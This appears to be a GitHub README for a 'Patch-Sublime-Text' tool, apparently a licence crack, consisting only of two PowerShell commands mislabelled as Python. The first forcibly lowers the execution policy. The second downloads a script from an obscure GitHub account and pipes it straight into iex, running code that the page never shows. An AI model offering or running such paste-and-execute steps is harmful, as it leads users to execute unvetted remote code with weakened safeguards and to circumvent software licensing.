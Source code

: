 # Patch-Sublime-Text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
irm https://raw.githubusercontent.com/AAAAAEXQOSyIpN2JZ0ehUQ/patch-sublime-text/refs/heads/main/Patch_Sublime_Text.ps1 | iex
```
